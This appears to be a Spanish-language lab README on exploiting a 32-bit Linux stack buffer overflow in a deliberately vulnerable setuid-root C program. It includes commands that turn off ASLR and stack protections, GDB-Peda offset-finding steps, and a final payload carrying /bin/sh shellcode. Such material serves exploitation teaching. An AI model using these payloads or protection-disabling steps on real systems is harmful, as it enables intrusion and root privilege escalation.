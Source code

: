**EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux]()
## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```
## Compilacion
 ```bash
gcc -g -fno-stack-protector -z execstack -m32 buff.c -o buff
```
 ## Permisos
 ```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
 ```
 ## GDB-Peda
 Vemos los registros de la memoria
 
 **Comando:** 
 ```bash
 i r
 ```
 Crea cadenas aleatorias
 
 **Comando:**
 ```bash
 pattern arg 100
 ```
 Ejecuta el binario
 
 **Comando:**
 ```bash
 r
 ```
 En base a la cadena creada anteriormente, busca el tamaño exacto de bites antes de sobreescribir el EIP.
 A ese numero es el que multiplicamos nuestras **"A"** y le sumamos 4 **"B"** que serían 4 bits.
 
 **Comando:**
 ```bash
 pattern search
 ```
 Ver los ultimos registros de la pila
 
 **Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code), que nos sirven a la hora de ejecutar nuestra shell
 ```bash
 \x90
 ```
 Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 Payload final
 ```bash
 $(python -c 'print "A"*76 + "\xa0\xef\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
